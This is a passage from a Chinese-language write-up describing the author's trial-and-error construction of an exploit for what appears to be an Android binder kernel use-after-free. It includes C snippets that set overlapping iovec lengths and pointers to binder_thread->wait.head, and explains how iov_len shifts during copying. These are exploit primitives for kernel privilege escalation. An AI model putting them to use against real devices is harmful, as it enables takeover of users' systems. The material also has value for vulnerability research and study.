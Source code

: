 当时当然是没有现在这么清晰的分析的，xjb 试了非常多构造方法，都无效（比如在 `bio.iovs[8]` 试了半天却没有改 iov_len，这显然没用的）。

```c
bio.iovs[9].iov_base  = dummy_page;
bio.iovs[9].iov_len   = 0x10001000;         // 修改了，保证卡住
bio.iovs[10].iov_base = (void *)0xdeadbeef; // 这个时候发现了就算是错的也不重启，就改回来了
bio.iovs[10].iov_len  = PAGE_SIZE;

// 以下为初始化状态
struct iov_iter {
	size_t iov_offset; // 0
	size_t count; // 0x10002000
    const struct iovec *iov; // &bio.iovs[0]
};
```
在复制完第一个 page 后卡住触发漏洞，最终表现是只复制了 0x10001000 个字节，后面那个 PAGE_SIZE 没有被复制。

> 人间蒸发的 PAGE_SIZE 个字节。

在刚触发完漏洞时，各结构体状态为：

```c
bio.iovs[9].iov_base  = dummy_page;
bio.iovs[9].iov_len   = 0x10011001;
bio.iovs[10].iov_base = &binder_thread->wait.head;
bio.iovs[10].iov_len  = &binder_thread->wait.head;

struct iov_iter {
	size_t iov_offset; // 0x1000
	size_t count; // 0x10001000
    const struct iovec *iov; // &bio.iovs[9]
};
```

注意 `bio.iovs[9].iov_len` 已经大于剩下要读的字节数（count - iov_offset = 0x10001000），所以以后所有字节都将从  `bio.iovs[9].iov_len` 读取。而 dummy_page 只映射了 0x10001000 这么多字节，导致只能复制出这么多字节，`bio.iovs[10]` 压根就没复制到。

> 这个好像有点走进科学，不过做 mmap 的时候真的只映射了这么多，当时没有研究得这么完全，没想到 iov_len 还在用的时候变了

#### Round 3

终于懂了要考虑 iov_len 在复制中的变化，这导致一开始给长度的时候要把一些额外的长度加在第二个 iovec 里面，抵消掉第一个 iovec 在复制中变长导致的影响。于是构造成这样：

```c
bio.iovs[9].iov_base  = dummy_page;
bio.iovs[9].iov_len   = 0x10001;
bio.iovs[10].iov_base = (void *)0xdeadbeef;  // 这个时候发现了就算是错的也不重启，就改回来了
bio.iovs[10].iov_len  = 0x10001 + PAGE_SIZE; // 这里加了 0x10001 就是为了抵消第一个 iovec 变长，实际读取的时候并不会从这里读 0x10001 字节

// 以下为初始化状态
struct iov_iter {
	size_t iov_offset; // 0
	size_t count; // 0x21002
    const struct iovec *iov; // &bio.iovs[0]
};
```
